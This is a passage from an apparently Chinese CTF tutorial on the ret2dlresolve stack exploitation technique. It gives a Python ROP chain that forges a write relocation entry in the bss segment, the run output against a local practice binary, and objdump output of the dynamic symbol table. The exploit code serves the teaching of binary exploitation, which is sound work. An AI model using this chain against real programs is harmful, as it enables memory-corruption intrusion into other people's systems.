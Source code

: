 ```python
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = 0x607

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(write_got)  # fake reloc
rop.raw(r_info)
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

最后结果如下，这次我们在bss段伪造了一个假的write的重定位项，仍然输出了对应的字符串。

```shell
➜  ret2dlresolve git:(master) ✗ python stage3.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 126063
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

##### stage 4

stage3中，我们控制了重定位表项，但是重定位表项的内容与write原来的重定位表项一致，这次，我们将构造属于我们自己的重定位表项，并且伪造该表项对应的符号。首先，我们根据write的重定位表项的r_info=0x607可以知道，write对应的符号在符号表的下标为0x607>>8=0x6。因此，我们知道write对应的符号地址为0x8048238。

```shell
➜  ret2dlresolve git:(master) ✗ objdump -s -EL -j  .dynsym main

main：     文件格式 elf32-i386

Contents of section .dynsym:
 80481d8 00000000 00000000 00000000 00000000  ................
 80481e8 33000000 00000000 00000000 12000000  3...............
 80481f8 27000000 00000000 00000000 12000000  '...............
 8048208 52000000 00000000 00000000 20000000  R........... ...
 8048218 20000000 00000000 00000000 12000000   ...............
 8048228 3a000000 00000000 00000000 12000000  :...............
 8048238 4c000000 00000000 00000000 12000000  L...............
 8048248 2c000000 44a00408 04000000 11001a00  ,...D...........
 8048258 0b000000 3c860408 04000000 11001000  ....<...........
 8048268 1a000000 40a00408 04000000 11001a00  ....@...........
```
